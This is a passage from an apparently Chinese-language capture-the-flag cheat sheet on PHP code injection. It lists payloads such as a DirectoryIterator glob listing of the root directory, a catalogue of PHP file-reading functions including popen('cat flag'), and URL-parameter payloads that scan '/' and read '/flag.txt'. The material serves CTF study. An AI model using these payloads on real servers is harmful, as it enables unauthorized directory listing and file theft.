$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

## 补充文件读取函数

```php
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include($filename); // 非php代码
include_once($filename); // 非php代码
require($filename); // 非php代码
require_once($filename); // 非php代码
print_r(fread(popen("cat flag", "r"), $size));
print_r(fgets(fopen($filename, "r"))); // 读取一行
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetcsv(fopen($filename,"r"), $size));
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
print_r(fscanf(fopen("flag", "r"),"%s"));
print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组

冷门函数

打印函数：print、echo
print和echo无法打印数组，利用implode函数将数组转换成字符串再打印
查看目录下文件：scandir
读取函数readgzfile：可以读取非gz格式的文件
    
payload：
?c=echo(implode('---',scandir("/")));
?c=readgzfile('/flag.txt');
```

